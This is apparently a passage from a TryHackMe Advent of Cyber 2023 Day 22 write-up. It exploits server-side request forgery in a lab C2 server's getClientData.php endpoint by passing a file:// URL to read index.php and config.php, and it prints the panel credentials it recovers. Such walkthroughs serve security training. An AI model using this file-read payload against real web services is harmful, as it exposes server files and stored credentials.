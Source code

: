 ![Advent of Cyber 2023 Day 22 - API Endpoint](tryhackme/images/aoc2023d22_api_endpoint.png)

From the documentation, we can see that the `http://10.10.48.88/getClientData.php?url=http://IP_OF_CLIENT/NAME_OF_FILE_YOU_WANT_TO_ACCESS` endpoint takes a URL as a parameter. However, if we change the parameter to access a file on the C2, it will fetch its contents, such as `index.php`:

```
http://10.10.48.88/getClientData.php?url=file:////var/www/html/index.php
```

Changing this to `config.php`, we get the credentials to the panel:

```php
<?php
$username = "mcgreedy";
$password = "mcgreedy!@#$%";

?>
```

![Advent of Cyber 2023 Day 22 - C2 Panel](tryhackme/images/aoc2023d22_c2_panel.png)
